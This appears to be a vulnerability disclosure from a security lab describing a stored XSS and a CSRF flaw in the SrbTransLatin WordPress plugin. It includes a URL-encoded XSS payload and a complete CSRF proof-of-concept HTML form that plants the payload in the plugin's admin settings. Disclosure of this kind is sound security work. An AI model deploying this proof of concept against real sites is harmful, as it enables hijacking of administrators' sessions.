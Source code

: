 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug at wp-plugin SrbTransLatin.

#### ADLab of Venustech

#### Stored-XSS

When the admin user click the "Update Options" button in the SrbTransLatin setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions
```


But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
lang_identificator=script%27%22%3E%3Csvg%2Fonload%3Dalert%28123%29%3E%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/SrbTransLatin/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions" method="POST">
      <input type="hidden" name="lang&#95;identificator" value="script&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;123&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="stl&#95;default&#95;language" value="cir" />
      <input type="hidden" name="file&#95;lang&#95;delimiter" value="&#61;" />
      <input type="hidden" name="sanitize&#95;file&#95;names" value="on" />
      <input type="hidden" name="Submit" value="Update&#32;Options" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the wp-plugin SrbTransLatin v1.46.
